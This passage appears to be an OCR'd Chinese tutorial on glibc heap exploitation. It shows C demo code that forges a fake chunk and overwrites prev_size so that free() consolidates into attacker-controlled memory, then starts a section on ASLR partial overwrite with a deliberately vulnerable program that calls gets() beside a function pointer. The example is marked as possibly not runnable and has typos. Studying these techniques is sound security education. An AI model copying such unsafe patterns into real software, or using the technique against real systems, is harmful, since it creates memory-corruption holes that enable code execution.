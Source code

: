 ```c
  fake_chunk.size = 0x100;    // enough size to service the malloc request
  // These two will ensure that unlink security checks pass
  // i.e. P->fd->bk == P and P->bk->fd == P
  fake_chunk.fd = &fake_chunk;
  fake_chunk.bk = &fake_chunk;

  // This is needed to pass ‘chunksize(P) == prev_size (next_chunk(P)), 0)’
  fake_chunk2.prev_size = 0x100;

  // Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
  // This falls within the bounds of ptr1's chunk - no need to overflow
  *(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                  (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                  - (size_t)&fake_chunk;

  // Free the second chunk. It will detect the previous chunk in memory as free and try
  // to merge with it. Now, top chunk will point to fake_chunk
  free(ptr2);

  victim = malloc(40);

  printf("%p\n", victim);

  return 0;
}
```

这里有两个安全检查，第一个是unlink的常见链表指针检查，另一个是新添加的对后一个chunk的prev_size的检查，这里并不检查后一个chunk的`P`位，默认unlink的对象是已经unused。

合并的chunk的大小并不是两个偏移的距离，而是假chunk和原chunk的大小的和，因此这里的假chunk大小需要合理设置来满足新malloc的要求。

## 8. ASLR绕过 / ASLR低位覆盖

ASLR可以低位覆盖，x64上地址都是使用小尾数，因此可以覆盖一个字节就可以覆盖低位地址，从而使得部分地址一致

例题（Maybe not runnable）

```c
#include<stdio.h>

struct role{
    void *func;
    char *name;
    size_t name_lenth;
    int n;
}

void print(role *p_role){
    printf("%s %d\n", p_role->name, p_role->n);
}

int main(){
    char buf[128]; // on stack
    role* p_role; // on stack
    while (1)
    {
        p_role = malloc(sizeof(role));
        p_role->func = &print;
        gets(buf);
        p_role->name_lenth = strlen(buf);
        p_role->name = malloc(p_role->name_length);
        gets(buf);
        p_role->n = atoi(buf);
        print(p_role);
```